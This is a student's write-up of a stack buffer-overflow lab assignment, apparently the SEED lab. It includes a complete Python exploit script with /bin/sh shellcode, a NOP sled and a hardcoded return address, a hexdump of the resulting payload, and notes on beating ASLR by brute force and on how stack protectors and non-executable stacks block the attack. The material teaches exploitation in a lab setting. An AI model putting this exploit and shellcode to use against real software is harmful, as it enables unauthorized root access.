





# Assignment 1

[TOC]

## Question 1

|collaborator name|NetID|
---|---
|Kevin|aa123|
|Shubham|bb345|

## Question 2

### what I did 

1. first I compile call_shellcode.c
2. then use `./call_shellcode.c`

### result

- I got a shell prompt `$` immediately after running the ELF
- using `whoami`, the user is the same as the user called `./call_shellcode.c`

## Question 3

### what I did

> I use python version of exploit script

1. Compiled stack.c which stack executable and no stack protector
2. Set D=36 in exploit.py in order to let function return to address we set
3. Debugged core dump file to get the address of shellcode on stack
4. Changed return address in exploit.py to the address of shellcode when program is running.
5. Ran exploit.py to generate "badfile", then ran stack

### resut

Got a root shell, but the actual uid of the process is still seed




## Question 4

```python
#!/usr/bin/python3

import sys

shellcode= ( 
    "\x31\xc0"             # xorl    %eax,%eax              
    "\x50"                 # pushl   %eax                   
    "\x68""//sh"           # pushl   $0x68732f2f            
    "\x68""/bin"           # pushl   $0x6e69622f            
    "\x89\xe3"             # movl    %esp,%ebx              
    "\x50"                 # pushl   %eax                   
    "\x53"                 # pushl   %ebx                   
    "\x89\xe1"             # movl    %esp,%ecx              
    "\x99"                 # cdq                            
    "\xb0\x0b"             # movb    $0x0b,%al              
    "\xcd\x80"             # int     $0x80                  
    "\x00"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

#########################################################################
# Replace 0 with the correct offset value
D = 36
# Fill the return address field with the address of the shellcode
# Replace 0xFF with the correct value 
content[D+0] = 0x44   # fill in the 1st byte (least significant byte) 
content[D+1] = 0xEC   # fill in the 2nd byte 
content[D+2] = 0xFF   # fill in the 3rd byte
content[D+3] = 0xBF   # fill in the 4th byte (most significant byte)
#########################################################################

# Put the shellcode at the end
start = 517 - len(shellcode) 
content[start:] = shellcode 

# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()
```

## Question 5

```binary

0000000 9090 9090 9090 9090 9090 9090 9090 9090
*
0000020 9090 9090 ec44 bfff 9090 9090 9090 9090
0000030 9090 9090 9090 9090 9090 9090 9090 9090
*
00001e0 9090 9090 9090 9090 9090 9090 c031 6850
00001f0 2f2f 6873 2f68 6962 896e 50e3 8953 99e1
0000200 0bb0 80cd 0000                         
0000205

```

## Question 6


- Before I insert new shellcode, only got a shell with `seed` as user.
- After inserting new shellcode, got a shell with root privilege.





Since SID gave the program approximate root privilege, with that, the program set its real user id to 0(root), then run dash.
When dash try to check if uid == sid, it'll be true, so the shell stay in root privilege.


## Question 7

With luck, I got shell after running 753 times.

The script keep running `stack`, it fails when the return address we wrote in exploit.py is wrong. Once the position of stack is good that the return address can work, got a shell.




## Question 8

- Compiled `stack_protect` without `-fno-stack-protector`
- Compiled `stack_no_protect` with it

Run both of them:


Running `stack_no_protect` got a shell proves `badfile` is valid. Got `stack smashing detected` when running `stack_protect`


## Question 9


- Compile `stack_exe` with execstack
- Compile `stack_noexe` with noexecstack



Got shell with `stack_exe`, this proves badfile is valid.
Got Segmentation fault when running `stack_noexe`.


